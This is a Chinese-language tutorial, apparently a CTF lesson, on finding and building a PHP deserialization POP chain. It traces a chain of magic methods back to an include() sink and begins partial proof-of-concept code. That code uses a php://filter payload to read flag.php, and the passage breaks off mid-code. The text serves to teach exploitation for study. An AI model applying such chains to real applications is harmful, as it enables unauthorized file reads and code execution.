# 网络安全：P176：POP链真题讲解



在本节课中，我们将学习如何分析和构建POP链，以解决一道典型的PHP反序列化漏洞题目。我们将从理解POP链的核心概念开始，逐步分析题目代码，最终构造出能够读取任意文件（例如`flag.php`）的利用链。









## 概述





POP链（Property-Oriented Programming Chain）是反序列化漏洞利用中的一种技术。其核心思想是通过控制对象的属性，触发一系列魔术方法的调用链，最终达到执行任意代码或读取敏感文件的目的。本节课将通过一道真题，详细讲解寻找和构建POP链的完整流程。



## POP链的核心概念与寻找方法

POP链的实质是“面向属性编程”，即通过控制对象的属性或方法来达到攻击目的。寻找POP链的过程，可以归纳为以下三个关键步骤。

### 第一步：明确起点

POP链执行的起点是**反序列化入口**，即程序中`unserialize()`函数的参数可控的位置。这是我们能够向程序注入序列化数据的地方。



例如，在以下代码中，起点就是`$_GET[‘OZ’]`参数传递给`unserialize()`函数的地方。
```php
if (isset($_GET[‘OZ’])) {
    unserialize($_GET[‘OZ’]);
}
```

### 第二步：确定终点

反序列化攻击的终点是我们希望达成的目标，通常是能够**执行代码**或**任意读取文件**的代码位置。

以本题为例，终点是`works`类中的`fun`方法，因为它包含了`include`语句，可以用于包含并执行任意文件。
```php
public function fun() {
    include($this->post);
}
```

### 第三步：连接起点与终点

这是最关键的一步。我们需要从**终点**出发，逆向寻找能够触发它的方法，并逐步回溯到**起点**，从而形成一条完整的调用链。连接的关键在于研究类的**属性和魔术方法**，因为魔术方法会在特定条件下自动触发。

上一节我们介绍了POP链的起点和终点，本节中我们来看看如何具体地连接它们。

## 真题代码分析与POP链构建

现在，我们来看一道包含三个类的复杂题目。我们将遵循上述方法，一步步构建出完整的POP链。

### 1. 整体代码结构分析







题目代码主要包含三个类：`works`、`do`、`peal`，以及一段接收GET参数`OZ`并进行反序列化的入口代码。我们无需一开始就陷入每一行代码的细节，而应先把握整体结构。



### 2. 寻找并分析终点




我们的目标是找到可以执行代码或读取文件的地方。以下是分析三个类后的发现：




*   **`works`类**：其中的`fun`方法包含`include($this->post);`，这可以用于包含任意文件，是理想的终点。
*   **`do`类**：其中的`pen`方法可以输出文件内容，但它不是魔术方法，难以被自动触发，因此不作为首选终点。
*   **`peal`类**：没有直接执行危险操作的方法。

因此，我们确定终点为：**`works::fun`**。

### 3. 逆向构建调用链

现在我们从终点`works::fun`开始，逆向寻找触发它的路径。

*   **如何触发 `works::fun`？**
    查看`works`类，发现`__invoke`魔术方法中调用了`$this->fun()`。根据PHP特性，当尝试将一个对象当作函数调用时，会自动触发其`__invoke`方法。
    *   因此，路径一：**`works::__invoke` -> `works::fun`**。

*   **如何触发 `works::__invoke`？**
    我们需要在代码中找到将`works`对象当作函数调用的地方。分析发现，在`peal`类的`__get`魔术方法中，有`$this->cmd[$this->sand]();`这行代码。如果`$this->cmd[$this->sand]`是一个`works`对象，那么加上`()`进行调用就会触发其`__invoke`方法。
    *   因此，路径二：**`peal::__get` -> `works::__invoke`**。
    *   条件：需要使`$peal->cmd[$peal->sand]`为一个`works`对象。

*   **如何触发 `peal::__get`？**
    `__get`魔术方法在访问对象不可访问的属性时触发。我们需要找到访问`peal`对象不可访问属性的地方。
    在`do`类的`__toString`魔术方法中，有代码片段：`$this->str[‘str’]->{$this->str[‘str’]}`。如果`$this->str[‘str’]`的值是字符串`’sand’`，那么这段代码就在访问`$this->str[‘str’]`对象的`sand`属性。如果`$this->str[‘str’]`是一个`peal`对象，而`peal`类没有`sand`属性，这次访问就会触发`peal`的`__get`方法。
    *   因此，路径三：**`do::__toString` -> `peal::__get`**。
    *   条件：需要精心构造`do`对象的`str`属性。

*   **如何触发 `do::__toString`？**
    `__toString`魔术方法在对象被当作字符串使用时触发。在`do`类的`__wakeup`魔术方法中，有`if (stristr($this->str, ‘gopher’))…`。这里使用了`stristr`函数，其第一个参数会被当作字符串处理。如果`$this->str`是一个`do`对象，就会触发其`__toString`方法。
    *   因此，路径四：**`do::__wakeup` -> `do::__toString`**。
    *   条件：需要使一个`do`对象（记为`$do2`）的`str`属性为另一个`do`对象（记为`$do1`）。

*   **如何触发 `do::__wakeup`？**
    `__wakeup`魔术方法在对象被反序列化时自动触发。而这正是我们的起点——`unserialize()`函数。
    *   因此，路径五：**`unserialize()` -> `do::__wakeup`**。



### 4. 完整的POP链



将以上路径连接起来，我们就得到了从起点到终点的完整POP链：
**`unserialize($do2)` -> `$do2::__wakeup` -> `$do2->str($do1)::__toString` -> `$do1->str[‘str’]($peal)::__get` -> `$peal->cmd[$peal->sand]($works)::__invoke` -> `$works::fun`**

## 构造利用代码



根据上面分析出的链条和条件，我们可以编写PHP代码来构造恶意的序列化字符串。

以下是构造POC（Proof of Concept）的示例代码：
```php
<?php
class works {
    public $post;
    public function __construct() {
        // 终点：读取flag.php，并用base64编码输出以便查看
        $this->post = “php://filter/read=convert.base64-encode/resource=flag.php”;
    }
}

class do {
    public $str;
}







class peal {
    public $sand;
    public $cmd;
}

// 1. 创建终点对象 $works
$works = new works();

// 2. 创建 $peal 对象，使其 __get 方法能触发 $works 的 __invoke
$peal = new peal();
$peal->sand = ‘str’; // 这个值会被用于数组键名
$peal->cmd = array(‘str’ => $works); // 使 $peal->cmd[‘str’] 为 $works 对象



// 3. 创建 $do1 对象，使其 __toString 方法能触发 $peal 的 __get
